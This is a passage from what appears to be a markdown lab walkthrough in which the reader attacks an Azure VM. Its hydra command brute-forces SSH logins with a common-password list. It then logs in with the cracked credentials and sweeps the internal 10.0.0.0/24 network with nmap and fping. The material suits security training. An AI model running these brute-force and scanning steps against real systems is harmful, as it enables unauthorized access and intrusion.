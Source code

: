    >[!NOTE]
   This is actually a modified version of the 200 most common passwords of 2023 from [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2023-200_most_used_passwords.txt), since most of the passwords in the original file do not meet the password complexity requirements of Azure VMs.

   ```bash
   hydra -l azureuser -P ./common_passwords.txt ssh://<Public_IP>:2222
   ```

    > [!TIP]
    **-l azureuser:** Specifies the username to use for the attack.  
    >
    >**-P ./common_passwords.txt:** Points to a file containing a list of common passwords.  

## Step 3: Access the VM

Now, use the cracked credentials to SSH into the VM:

```bash
ssh -p 2222 azureuser@<Public_IP>
```

🎉 You’ve officially gained access to the VM! Remember, use your powers for good and always wear a white hat. But you’re not done yet—explore further.

## Step 4: Explore the Network

There doesn't seem to be anything of use to you on this vm. Dig into their network to see if you can find anything useful.

### 4.1: Understanding the VM’s Internal Network

Run the following to check the internal IP of the current VM:

```bash
ifconfig
```

You’ll likely see an internal IP in the 10.0.0.x range (common for Azure VNets). This means the VM is part of a private network.

### 4.2: Discover Other Devices on the Network

Scan all devices in the 10.0.0.x range to identify active hosts. Use one of the methods below to send bulk ICMP echo probes (pings).

**Method 1: Using nmap:**
```bash
nmap -sn 10.0.0.0/24
```

>[!TIP]
**-sn:** Performs a ping scan (no port scan). This option tells nmap to only discover hosts that are up, without scanning for open ports.

**Method 2: Using fping:**
```bash
fping -g 10.0.0.1 10.0.0.254
```
